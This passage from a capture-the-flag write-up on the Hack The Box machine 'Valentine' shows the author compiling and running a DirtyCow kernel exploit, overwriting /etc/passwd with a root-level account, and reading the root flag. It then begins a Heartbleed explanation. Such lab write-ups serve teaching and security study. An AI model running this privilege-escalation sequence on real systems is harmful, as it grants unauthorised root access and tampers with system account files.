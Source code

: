 Next, I compile the code
```bash
hype@valentine:~$ gcc -pthread /dev/shm/dirtycow.c -o /dev/shm/dirty -lcrypt
```

And finally, fire off the exploit.
```bash
hype@Valentine:~$ /dev/shm/dirty asuperstrongpassword
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: asuperstrongpassword
Complete line:
hype:fiXD0gs9vuSuY:0:0:the privileges of this user are totally not root:/root:/bin/bash

mmap: 7fd7e62b5000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'hype' and the password 'asuperstrongpassword'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'hype' and the password 'asuperstrongpassword'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
hype@Valentine:~$ 
```

Once the script had completed, I check the contents of `/etc/passwd` to confirm it worked correctly.
![htb-valantine-10](/images/htb/valentine/htb-valantine-10.png)

I log out, and SSH back in. This time it prompts for a password. 
![htb-valantine-11](/images/htb/valentine/htb-valantine-11.png)

I enter the password I set with DirtyCow, and I'm back in. However this time, with root privilege. 
```bash
hype@Valentine:/home/hype# cd /root
hype@Valentine:~# ls -l
total 8
-rwxr-xr-x 1 hype root 388 Dec 13  2017 curl.sh
-rw-r--r-- 1 hype root  33 Dec 13  2017 root.txt
hype@Valentine:~# cat root.txt 
[REDACTED]
```
# <a name="deconstruct"></a>Deconstructing the hack
## <a name="heartbleed"></a>Heartbleed
Sometimes, the easiest way to explain a concept is with pictures. Take a look at the [xkcd comic](https://xkcd.com/1354/) below which depicts how the techniques I used above was able to exploit the Heartbleed vulnerability and retrieve sensitive information from the remote system.
